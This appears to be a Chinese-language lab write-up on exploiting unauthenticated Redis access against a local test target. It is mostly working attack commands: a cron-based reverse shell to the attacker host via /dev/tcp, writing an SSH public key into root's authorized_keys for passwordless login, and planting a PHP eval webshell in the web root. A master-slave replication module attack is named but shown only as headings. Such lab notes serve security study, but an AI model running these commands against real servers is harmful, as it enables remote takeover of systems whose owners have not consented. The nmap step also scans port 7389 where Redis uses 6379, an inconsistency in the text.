# Redis未授权访问漏洞

## 靶场搭建

首先下载安装符合漏洞利用的低版本redis：

wget http://download.redis.io/releases/redis-2.8.17.tar.gz

该版本无需修改redis.conf文件


高版本redis需要注释bind 127.0.0.1,以及防护设置为no

并将redis服务与redis.conf同时启动


解压安装包

```
tar xzf redis-2.8.17.tar.gz
```


进入目录编译安装

```
cd redis-2.8.17
make
```


make结束后，进入src目录启动服务

```
cd src
redis.server   ../redis.conf
```


攻击机同样，只是进入src目录后启动redis-cli

```
redis-cli  -h ip -p 6379
```


## 漏洞复现

攻击机ip：192.168.1.129

靶机ip：192.168.1.128

### 定时任务反弹shell


#### nmap扫描目标是否搭建redis服务

```
nmap -p 7389 192.168.1.128
```




#### 尝试未授权访问，成功连接

```
redis-cli -h 192.168.1.128 -p 6379
```




#### 写入定时任务

反弹shell到攻击主机

```
set x "\n*/1 * * * * bash -i >&/dev/tcp/192.168.1.129/8888 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```




#### 本地开启监听得到反弹shell



（但是这里的shell为什么是来自192.168.1.1的）

然后命令无法执行


#### 修改定时任务，将监听端口改为8889


```
set x "\n*/1 * * * * bash -i >&/dev/tcp/192.168.1.129/8889 0>&1\n\n"
```

成功反弹shell并且可以执行命令




### ssh免密登录

#### 原理

通过redis想目标服务器写入ssh公钥，将公钥放到linux系统的/root/.ssh/authorized_keys的文件下实现ssh免密登录

#### 条件

服务端存在.ssh目录并且有写入权限，还需要redis是root启动的，因为非root权限无法进入root目录


#### 利用过程

本地：

##### 进入root目录下的 .ssh目录

```
cd ~/.ssh
```

##### 生成ssh密钥

```
ssh-keygen -t rsa
```

ssh-keygen：调用SSH密钥生成工具

-t rsa：指定密钥类型为RSA

RSA是一种非对称加密算法，用于生成一对密钥：私钥和公钥




##### 将公钥内容写入key.txt

```
（echo -e "\n\n";cat /root/.ssh/id_rsa.pub;echo -e "\n\n")>./key.txt
```



解析：

echo -e "\n\n"

-e：启用转义序列

\n\n：生成两个换行符

作用：在输出的key.txt文件开头添加两个空行


cat /root/.ssh/id_rsa.pub

读取SSH公钥内容


echo -e "\n\n"

再次生成两个换行符

\

\>./keytxt

重定向符号

将前面命令的输出写入./key.txt中

```
cat key.txt
```




##### 将key.txt的内容写入redis

```
cat ./key.txt | redis-cli -h 192.168.1.128 -x set pkey
```



cat ./key.txt 

读取key.txt文件内容

 

| 

将文件内容作为redis命令的参数

 

-h

指定redis服务器的ip

 

-x

从标准输入中读取数据，作为后续Redis命令的参数

-x配合管道符使用，将管道传递的数据作为set命令的值

 

set pkey

set是redis的命令，用于设置一个键值对

语法为set key value

pkey是redis中的键名

-x确保了管道传输的文件内容会作为pkey的值进行设置


##### 连接redis-cli

将存储文件路径改为/root/.ssh/

文件名改为authorized_keys

保存

```
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```


##### 免密登录成功




### 写入webshell

```
flushall
set webshell "\n\n<?php @eval($_POST['ra1n3']);?>\n\n"
config set dir /var/www/html
config set dbfilename ra1n3.php
save
```






### 主从复制利用

#### 伪造Redis主节点，注入恶意模块



#### 命令执行

